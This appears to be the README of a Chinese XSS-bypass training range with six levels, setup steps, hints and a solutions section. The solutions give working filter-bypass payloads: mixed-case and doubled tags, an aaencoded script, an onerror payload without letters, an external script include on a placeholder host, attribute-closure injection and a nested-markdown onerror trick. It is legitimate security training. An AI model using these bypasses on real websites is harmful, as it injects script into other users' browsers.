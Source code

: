 # 易锦 XSS 靶场

> 一个有意思的 XSS bypass 练习靶场，使用 React + Typescript 开发。



# 运行

1. 下载靶场源码，或者克隆到本地

2. 安装依赖

   ```bash
   npm  install
   ```

3. 运行靶场

   ```bash
   npm  start
   ```

4. 访问靶场

   默认是在[127.0.0.1:3000](127.0.0.1:3000)

5. 靶场使用

   在输入框中输入的内容经过 `parse` 函数处理之后渲染到一个 iframe 页面，这个页面里的 `alert` 函数已经被重写，调用 `alert` 之后就可以通关，通关后上方的关卡标题右边会出现”下一关“的按钮。

   







# 霉霉镇楼，不要偷看答案哦！

![](http://n.sinaimg.cn/ent/transform/20170506/zJy9-fyeyqek9981336.jpg)



















# 通关思路（无 payload）

先试试根据下面的提示进行尝试，试不出来再去看带 payload 的详解版本。

1. 第一关

   这一关是 XSS 入门，只要会前端的人都会，就不说了。

2. 第二关

   针对常见的引用资源的标签名做了过滤，不过只替换小写，因此可以大写绕过。

3. 第三关

   补上了大小写匹配，但是采用粗暴的替换方式，可以使用双写绕过。

4. 第四关

   使用了神挡杀神佛挡杀佛的全大写，HTML 平安无恙，但是 JS 就无法执行了。但是 JS 的某些 Bug 是可以当作 Feature 来尝试的。

   没有头绪吗？搜索 aaencode 试试。

5. 第五关

   这一关属于是返璞归真了， XSS 漏洞很多时候是从属性带入的，只要会构造闭合就行了。

6. 第六关

   这一关可能确实有点难，不过仔细观察一下，图片和链接语法是先后解析的——这意味着如果把两个语句“套娃”的话，可能会产生奇效。











# 锦鲤提示：不要偷看答案哦！

![](https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fn.sinaimg.cn%2Fent%2Ftransform%2F373%2Fw440h733%2F20200315%2Fa895-iquxrui6507919.jpg&refer=http%3A%2F%2Fn.sinaimg.cn&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=auto?sec=1670418517&t=ceb307d6cdbf247168485e170673708b)









# 答案仅供参考（带 payload ）

1. 第一关，简单、原始、暴力

   ```html
   <script>alert()</script>
   ```

2. 第二关

   > 几个能带入脚本的标签会被替换掉，但是没考虑大写，所以果断大小写绕过，当然这里也可以使用双写。

   ```html
   <SCRipt>alert('Hello world')</script>
   ```

3. 第三关

   > 这一关大小写都会被杀掉，所以首选双写绕过。

   ```html
   <i<imgmg src onerror=alert() />
   ```

   ```html
   <scr<scriptipt>alert('Hello world')</script>
   ```

   > 也可以使用点击事件通关。
   >
   > 当然，XSS 利用的第一原则：能自动触发的绝不考虑交互触发。

   ```html
   <a onclick="alert(1)">点我</a>
   ```

4. 第四关

   > 这一关它会把所有字母改成大写，*HTML* 还是可以带进去，但是 *JS* 带不进去了。
   >
   > 可以使用**不带字母**的方法通关（只有字母有大小写）。

   ```html
   <script>ﾟωﾟﾉ= /｀ｍ´）ﾉ ~[表情][表情][表情]   //*´[表情]｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+/*´[表情]｀*/(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_'); </script>
   ```

   > 或者也可使用如下 *alert payload*：

   ```html
   <img src onerror="_ =[] + ![] + !![];__=[]+[][0];$_=[]+{};_1=$_[5]+$_[1]+__[1]+_[3]+$_[6]+_[6]+__[0]+$_[5]+$_[6]+$_[1]+_[6];_2=_[1]+_[2]+_[4]+_[6]+$_[6];(0)[_1][_1](_2+'(1)')()" />
   ```

   > 除了上面这种奇怪的编码之外，还可以使用跨站脚本。
   >
   > 先把一个内容为`alert()`、名为 `ALERT.JS` 的脚本放到网站上：

   ```html
   <script src="//xxxx.xxxx.xxx/ALERT.JS"></script>
   ```

5. 第五关

   > 构造 **HTML** 属性闭合(使用引号闭合)。

   ```html
   " onerror="alert()
   ```

6. 第六关

   > markdown **图片**语法:
   >
   > ```markdown
   > ![图片的描述](图片的链接)
   > ```
   >
   > markdown **链接**语法：
   >
   > ```markdown
   > [链接的描述](链接的地址)
   > ```
   >
   > 有语法解析的地方，写点奇怪的东西，看能不能弄出解析结果错误。
   >
   > “*图片语法里面套娃套一个*链接语法”，造成 HTML 结构破坏，后面就可以 `onerror` 了，结合 `setTimeout` 特殊用法，绕开括号限制，拿下！
   >
   > ```markdown
   > ![[1](onerror=setTimeout`alert\x28\x29` )]()
   > ```

   > #### 题解思路
   >
   > `Markdown` 产出的内容**通常被直接渲染到网页上**，而不会经过框架的反 *XSS* 过滤，框架对此无能为力了。
   >
   > 1. 通过查看代码，我们发现对方把单双引号跟小于符号都过滤掉了
   >
   >    ![image-20220505222836959](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505222836959.png)
   >
   >    所以常规的闭合思路不可取。
   >
   > 2. 但是，渲染标签的时候，对方给我们引入了梦寐以求的双引号
   >
   >    ```
   >    [1](2)
   >    ```
   >
   >    ![image-20220505223014862](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223014862.png)
   >
   > 3. 因此猜想把链接语法跟图片语法结合使用会有惊喜
   >
   >    ```
   >    ![[1](2)]()
   >    ```
   >
   >    ![image-20220505223418266](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223418266.png)
   >
   > 4. 尝试使用常规 payload，但是只有第一个括号，第二个被无意间干掉了，这是因为编辑器的语法解析的时候也需要圆括号，这个圆括号造成了干扰。
   >
   >    ```markdown
   >    ![[1](onerror=alert(1) )]()
   >    ```
   >
   >    ![image-20220505223835738](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223835738.png)
   >
   >    所以我们需要一种不引入圆括号的方法。
   >
   > 5. 结合 JS 的接口 `setTimeout` 可以**直接将后续的字符串变成代码**的奇葩特性，再加上十六进制编码`\x29 ==> )`，有突破口！
   >
   >    ```markdown
   >    ![[1](onerror=setTimeout`alert\x28\x29` )]()
   >    ```
   >
   > 
   >
   >    ![image-20220505224141164](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505224141164.png)
   >
   > 

   另外一种 针对 markdown 的 payload （仅针对对方没有过滤双引号的场景，不适用于这个靶场）：

   ```html
   ![]("onerror=setTimeout`alert\x28\x29`)
   ```

   > 以后遇到在线的 markdown 写作工具的时候可以试着挖掘一下。

